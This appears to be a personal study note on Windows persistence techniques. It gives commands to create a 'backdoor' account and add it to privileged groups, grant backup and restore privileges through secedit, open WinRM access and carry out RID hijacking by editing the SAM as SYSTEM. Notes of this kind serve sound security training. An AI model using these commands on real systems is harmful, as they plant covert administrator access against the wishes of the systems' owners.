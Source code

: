 ### Adding users to privileged groups
```powershell
# Creating user
net user backdoor /add

# Adding user to the administrators group
net localgroup "administrators" backdoor /add

# Adding user to "Backup Operators" group
net localgroup "Backup Operators" backdoor /add

# Adding user to "Remote Management Users" for RDP
net localroup "Remote Management users" backdoor /add
```

- By default, the UAC strips the remote user of it's administrative privs, this can be disabled. [[Policies#LocalAccountTokenFilterPolicy]]
- As a member of "Backup Operators", we can now save system and sam hives from the regsitery and use Impacket to get the system hash. [[Impacket#secretsdump.py]]

### Assigning privileges to users.
- By default, the 'backup Operators' have two privileges:
	- SeBackupPrivilege: User can read write any file in the system, ignoring any DACL in place
	- SeRestorePrivilege: User can read read any file in the system, ignoring any DACL in place
- A user can be assigned these privileges using `secedit` command.
```powershell
# Export current configuration
secedit /export /cfg config.inf

# Edit the config.inf to add the username in front of the privielge
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,backdoor
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,backdoor

# convert the config.inf file to config.sdb
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cnf /config.inf
```

### Enable win-rm without adding user to "Remote Management Users"
- Add the user to the security descriptor of Win-RM.
```powershell
# this will launch the configuration windows for the Win-RM's security descriptor
Set-PSSessionconfiguration -Name Microsoft.Powershell -showSecurityDescriptorUI
```

### RID hijacking
[[SID]]
- Changing the effective RID of a user to RID of an admistrator so that when the user logs in, it will have the same access tokens as an administrator.
- Effective RID is stored in `F` key at:
```cmd
HKLM\SAM\SAM\Domain\Account\Users\RID(hex)
```
- SAM is restricted to SYSTEM only.
```powershell
PsExec64.exe -i -s regedit
```
- Effective RID is located at `0x30` location in little endian format
- After changing the effective RID to 500 (0x01F4), the next time users logs in, it will get Administrators privileges.